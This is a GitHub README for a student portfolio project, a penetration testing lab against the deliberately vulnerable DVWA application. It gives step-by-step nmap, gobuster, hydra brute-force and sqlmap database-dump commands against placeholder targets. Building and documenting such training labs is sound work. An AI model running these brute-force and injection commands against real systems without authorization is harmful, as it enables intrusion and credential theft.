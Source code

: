 DVWA Penetration Testing Lab

A hands-on penetration testing project built to simulate a real-world attack/defense environment using Damn Vulnerable Web Application (DVWA).
Configured and executed on a controlled lab network to practice ethical hacking techniques and demonstrate practical cybersecurity skills.


🎯 Objective


	•	Build a contained penetration testing lab to practice ethical hacking techniques.
	•	Simulate a full attack lifecycle from reconnaissance to exploitation and  post-exploitation.
	•	Demonstrate proficiency with industry-standard tools and document results professionally

🔧 Features
	•	Reconnaissance
	•	Nmap scan for open ports and service enumeration
	•	Gobuster directory brute-forcing
	•	Exploitation
	•	Hydra brute-force attack on DVWA login
	•	Manual and automated SQL Injection (SQLMap)
	•	Post-Exploitation
	•	Extracting DVWA database user credentials
	•	Saving and documenting exploitation results
	•	Documentation
	•	Sanitized DVWA configuration file
	•	Step-by-step attack methodology
	•	Screenshots for every major phase

----

📂 Repository Structure

dvwa-penetration-testing-lab
├── attack-scripts       # Output logs from tools
│   ├── gobuster_scan.txt
│   ├── hydra_bruteforce.txt
│   ├── nmap_scan.txt
│   └── sqlmap_dump.txt
├── configs              # Sanitized config files
│   └── dvwa-config.sample.php
├── docs                 # Attack methodology & notes
│   └── attack-steps.md
├── screenshots          # Evidence (IPs blurred)
└── README.md

----
🧪 How to Reproduce

1.	Set up DVWA
	•	Deploy DVWA on Parrot/Kali or any Debian-based VM
	•	Configure database credentials in dvwa-config.php

2.	Recon

nmap -sV <target-ip> -oN attack-scripts/nmap_scan.txt
gobuster dir -u http://<target-ip>/ -w /path/to/wordlist -o attack-scripts/gobuster_scan.txt

---

3. Brute Force

hydra -l admin -P /path/to/wordlist http://<target-ip>/dvwa/login.php -V -o attack-scripts/hydra_bruteforce.txt

---

4. SQL Injection

sqlmap -u "http://<target-ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --level=5 --risk=3 --dump -o attack-scripts/sqlmap_dump.txt
---

5. Evidence Collection

	•	Save all tool outputs in attack-scripts/.
	•	Capture relevant screenshots with IPs sanitized.
	•	Write up findings in docs/attack-steps.md.

---
📌 Use Case

This project simulates real-world penetration testing methodology for learning and portfolio building.
It covers all key phases — Reconnaissance, Exploitation, and Post-Exploitation — in a safe, legal lab.

---

🖥️ Requirements

	•	DVWA installed on a Debian-based environment
	•	Kali/Parrot OS with:
	•	Nmap
	•	Gobuster
	•	Hydra
	•	SQLMap

---

📄 License

MIT License – free to use, share, and modify with attribution.

---

👤 Author

**Amir Nejad**
https://www.linkedin.com/in/amir-nejad98 * https://github.com/Amirnejad35


